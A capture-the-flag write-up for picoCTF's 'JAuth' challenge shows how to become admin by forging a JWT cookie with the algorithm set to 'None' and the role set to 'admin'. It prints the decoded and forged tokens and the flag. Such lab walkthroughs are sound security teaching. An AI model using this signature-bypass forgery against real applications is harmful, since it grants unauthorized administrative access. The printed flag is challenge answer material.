 # JAuth
Author: dch0017

## Challenge Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?
You can login as test with the password Test123! to get started.

## Website
Let's pull up the site and here is what we get:</br>
![website](./website.png)
</br>

Plain log in page, inspect the source html and nothing immediately sticks out. Let's go ahead and try to log in using the provided credentials.</br>
![logged in](./loggedin.png)
</br>

## Check the traffic
Nothing special here either, we are on a new subdirectory ```/private``` but I don't see any thing sticking out to me. Let's open up burpsuite and let's see what actually happens when we log in.

We see two requests, a POST request to ```/auth``` which supplies our username and password, and in turn we get an authentication cookie back. The cookie is then supplied in a GET request to ```/private``` to bring us to the page above.

## JWT Time
Here is our encoded cookie:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjc0MjI1NzY4NDc3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDkuMC41NDE0Ljc1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoidXNlciIsImlhdCI6MTY3NDIyNTc2OH0.zcPLxtC2W8qzN5Y_fjLt_q_N6xzVP2R7eVZjvve7_v0
```

Let's decode that and to see more info, I used [jwt.io](https://jwt.io) for this.</br>
![decoded cookie](./decoded_cookie.png)
</br>

## Slight modifications
A good article on JWT vulnerabilities is here on [Invicti](https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/).

Right off the bat, I want to go ahead and try to change that ```role``` portion of the from ```user``` to ```admin``` and see what I get.

Here is my new cookie:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjc0MjI1NzY4NDc3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDkuMC41NDE0Ljc1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2NzQyMjU3Njh9.gXYa8s-eRqOMLmJgQvT7SovirmOi6q3SZ6TLu5V-VZQ
```

and when I plug that into burpsuite and pass that along I get....</br>
![authentication failed](./authfailed.png)
</br>

## None Algorithm
Changing the ```alg``` key from HS256 to ```None``` totally skips the signature checking (if the application accepts that.) I doubt you would find this too often in the wild, but it doesn't hurt to try.

We can generate that fairly quickly using our console and the ```base64``` command but I just did it on [cyber chef](https://gchq.github.io/CyberChef/)

## Chef in the Kitchen
Put our ```header``` on the input side with ```To Base64``` in the recipe slot
```
{
  "typ": "JWT",
  "alg": "None"
}
```
Which gives us:
```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIk5vbmUiCn0=
```

Then we put our ```payload``` on the input side ```To Base64``` in the recipe slot
```
{
  "auth": 1674229308461,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36",
  "role": "admin",
  "iat": 1674229308
}
```


Which gives us:
```
ewogICJhdXRoIjogMTY3NDIyOTMwODQ2MSwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEwOS4wLjU0MTQuNzUgU2FmYXJpLzUzNy4zNiIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNjc0MjI5MzA4Cn0=
```

## Getting the forged JWT
Now let's combine those together, and drop the ```=``` and replace with a ```.```. So our forged JWT would end up looking like:
```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIk5vbmUiCn0.ewogICJhdXRoIjogMTY3NDIyOTMwODQ2MSwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEwOS4wLjU0MTQuNzUgU2FmYXJpLzUzNy4zNiIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNjc0MjI5MzA4Cn0.
```
Now plugging in that forged JWT during the GET request to  ```/private``` path should give us more information.

## Success
Finally we are greeted with a success page and our token. </br>
![success](./success.png)
</br>

## Flag
```
picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}
```
